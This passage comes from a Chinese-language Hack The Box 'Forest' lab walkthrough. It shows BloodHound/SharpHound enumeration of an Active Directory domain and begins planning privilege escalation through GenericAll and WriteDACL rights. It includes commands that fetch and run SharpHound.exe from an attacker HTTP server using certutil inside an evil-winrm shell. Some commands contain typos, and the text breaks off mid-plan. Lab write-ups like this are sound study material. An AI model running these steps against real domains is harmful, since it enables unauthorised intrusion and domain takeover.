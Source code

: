 由于我们位于**Active Directory**的域中，因此我们使用**Blood Hound**揭示该域中隐藏的文件。
### [3.2]BloodHound工具

- 安装BloodHound
```bash
root@kali:~/HTB/Forest$ apt install bloodhound
```
- 拥有SharpHound调查员
Sharphound必须从域用户中运行，可以直接通过登录或通过其他方法（例如RUNAS）运行。
然后，我们可以使用命令行枚举主机上组中的用户
```bash
PS C:\> net grous "Exchange Windos Permissions"
```
该命令使您知道用户从主机**svc-alfresco**请求了资源。此信息确认当前在组上没有活动会话。*Exchange Windows Permissions SOURCE 
svc-alfresco Exchange Windows Permissions*
这些不同的信息（并非详尽无遗）是由SharpHound采集器收集的，并以json格式保存在不同的文件中。
 - 将SharpHound安装到svs-alfresco
 1. 下载SharpHound.exe
```bash
root@kali:~/HTB/Forest$ git clone https://github.com/BloodHoundAD/BloodHound.git
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200326020803866.png)

2. 使用python设置HTTP服务器
```bash
root@kali:~/HTB/Forest/BloodHound/Ingestors# python -m SimpleHTTPServer 80
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200326021840292.png)
注：必须在刚下载好的*BloodHound/Ingestors*开启python服务器

3.  在evil-winrm Shell中安装并运行SharpHound.exe
```bash
PS C:\ certutil.exe -urlcache -split -f http://10.10.14.45/SharpHound.exe SharpHound.exe
PS C:\ ./SharpHound.exe
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200326022638467.png)
运行之后的SharpHound.exe将会产生一个ZIP文档，我们将这个文档从
svc-aflresco主机上下载到我们的系统上。
- 下载ZIP
```bash
PC C:\ download 20200325112604_BloodHound.zip
```
回到我们的系统上。
- 启用neo4j服务、bloodhound
```bash
root@kali:~/HTB/Forest$ neo4j console bloodhound
root@kali:~/HTB/Forest$ bloodhound 
```
*注：当启动bloodhound的时候需要有neo4j数据库的支持，如果从未使用过neo4j数据库需要到[这里](http://localhost:7474/)设置账号和密码*

将得到的ZIP存档拖到BloodHound软件中将得到一份“找到域管理员的最短路径”
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200326024608228.png)
我们发现：
- **svc-alfresco**用户在*SERVICE ACCOUNT组* 中
- 该组是*PRIVILEGEDIT ACCOUNT组* 的成员，*PRIVILEGED IT ACCOUNT组* 是*ACCOUNT OPERATORS组* 的成员。
- 并且*ACCOUNT OPERATORS组* 对*EXCHANGE WINDOWS PERMISSIONS组* 拥有**GenericALL权限**（允许我们对此组执行任何操作 GenericAll = 完全控制）
- **svc-alfresco** 对*EXCHANGE WINDOWS PERMISSIONS*具有**GenericALL权限**
- 交换*WINDOWS权限* 对域具有WriteDACL权限（提供修改对象安全性的能力，这可能导致对对象的完全控制）。
## [4]特权提升
### [4.1]攻击思路
1. 直接从**svc-alfresco**转到管理员（这样子将会破会HTB上其他的用户盒子），因此我将要使用**aclpwn**工具来实现自动化
2. 将**svc-alfresco**用户添加到*EXCHANGE WINDOWS PERMISSIONS组* 里(在我们使用whoami  /goups发现可以创建用户并将其添加到组中)